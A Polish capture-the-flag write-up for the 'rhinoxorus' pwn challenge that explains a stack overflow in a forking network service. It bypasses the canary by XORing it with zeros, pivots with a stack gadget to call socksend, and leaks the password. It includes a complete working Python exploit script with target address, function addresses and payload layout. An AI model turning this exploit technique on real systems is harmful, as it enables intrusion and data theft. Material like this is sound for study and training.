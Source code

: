 ## rhinoxorus (pwn, 500p, ? solves)

Dostajemy program i analizujemy go. Po uruchomieniu wczytuje on zawartość pliku password.txt do zmiennej globalnej, i zaczyna nasłuchiwać na porcie 24242 i forkuje się dla każdego połączenia.

Każdy fork wczytuje 256 bajtów od usera i wywołuje jakąś funkcję z globalnej tablicy funkcji:

```
bytes_read = recv(sockfd, recv_buf, (unsigned int)BUF_SIZE, 0);
if (bytes_read > 0)
    func_array[recv_buf[0]](recv_buf, (unsigned int)bytes_read);
```

Każda z funkcji jest podobna, i wygląda mniej więcej tak:

```
unsigned char func_32(unsigned char *buf, unsigned int count)
{
    unsigned int i;
    unsigned char localbuf[0x84]; // stała 0x84 jest różna dla każdej funkcji w tablicy
    unsigned char byte=0x84; // stała 0x84 jest różna dla każdej funkcji w tablicy

    memset(localbuf, byte, sizeof(localbuf));
    printf("in function func_32, count is %u, bufsize is 0x84\n", count);

    if (0 == --count)
         return 0;

    for (i = 0; i < count; ++i)
         localbuf[i] ^= buf[i];

    func_array[localbuf[0]](localbuf+1, count);
    return 0;
}
```

Od razu widać że łatwo wywołać przepełnienie bufora, ale niestety - stos jest chroniony kanarkami więc nie będzie tak łatwo.

W kodzie widać też nieużywaną nigdzie funkcję socksend która wysyła podany w argumencie bufor do podanego w argumencie socketa.

Po chwili zastanowienia dochodzimy do wniosku że możemy pominąć kanarka po prostu xorując go z zerami. Następnie jedyne co musimy zrobić, to nadpisać adres powrotu w odpowiedni sposób, tak żeby wywołać funkcję socksend z parametrami socksend(fd, password, BUF_SIZE) (w ten sposób program sam wyśle do nas flagę).

Niestety nie jest tak prosto, na stosie nie ma wystarczająco wiele miejsca żeby zmieścic argumenty dla funkcji socksend (po nadpisaniu zmiennej 'counter' kończy się wykonanie funkcji). Ale jeśli postaramy się, możemy przeskoczyć do ramki funkcji niżej:

![](./shellcode.png)

Znaleźliśmy do tego odpowiedni gadget na stosie:

```
gadget_pop:
add     esp, 0Ch    ; pominięcie 3 elementów na stosie
pop     ebx         ; zdjęcie elementu ze stosu (i zapisanie do ebx)
pop     esi         ; zdjęcie elementu ze stosu (i zapisanie do esi)
pop     edi         ; zdjęcie elementu ze stosu (i zapisanie do edi)
pop     ebp         ; zdjęcie elementu ze stosu (i zapisanie do ebp)
retn                ; zdjęcie elementu ze stosu i skoczenie od niego
```

Więc ostateczny plan jest taki: skaczemy pod ten gadget, on zdejmuje odpowiednią ilość parametrów ze stosu, wtedy wykonanie trafia na początek naszego czystego, niexorowanego bufora w pamięci i możmy zrobić co tylko chcemy.

Skrypt którego użyliśmy:

```
# -*- coding: utf-8 -*-
import struct, socket

HOST = '54.152.37.20'
PORT = 24242

s = socket.socket()
s.connect((HOST, PORT))

# oryginalny adres powrotu na stosie
first_return_addr = 0x08056AFA
# placeholder na zmienne których zawartość jest nieważna
placeholder = 'xxxx'

gadget_pop_xor = struct.pack('<I', 0x080578f5 ^ first_return_addr)
password_addr = struct.pack('<I', 0x0805F0C0)
socksend_addr = struct.pack('<I', 0x0804884B)
exit_addr = struct.pack('<I', 0x08048670)

def get_payload(counter):
    # xorujemy z 1, bo chcemy żeby counter przyjął 1
    counter_xor = struct.pack('<I', counter ^ 1)
    # składamy payload
    return (
            # adres funkcji socksend (znany)
            socksend_addr
            # adres powrotu z funkcji socksend do exit
            + exit_addr
            # deskryptor dla socksend (przewidywana wartość)
            + struct.pack('<I', 4)
            # adres zmiennej globalnej password dla socksend
            + password_addr
            # ilość bajtów do przeczytania dla socksend
            + struct.pack('<I', 256)
            # wolne miejsce na stosie (niezajęta część bufora)
            + placeholder * 39
            # xorowane z kanarkiem
            + '\0\0\0\0'
            # puste miejsce na stosie
            + placeholder * 3
            # podmieniamy adres powrotu na gadget_pop
            + gadget_pop_xor
            # xorowane z niepotrzebnym już argumentem z adresem bufora
            + placeholder
            # zerowanie countera
            + counter_xor
            )

# zmierzenie długości payloadu
payload_length = len(get_payload(123))
# i stworzenie ostatecznego payloadu
payload = get_payload(payload_length - 1)
s.send(payload)
print s.recv(99999)
```

I udaje się - skrypt który napisaliśmy zadziałał. Zdobyliśmy w ten sposób upragnioną flagę:
    cc21fe41b44ba70d0e6978c840698601
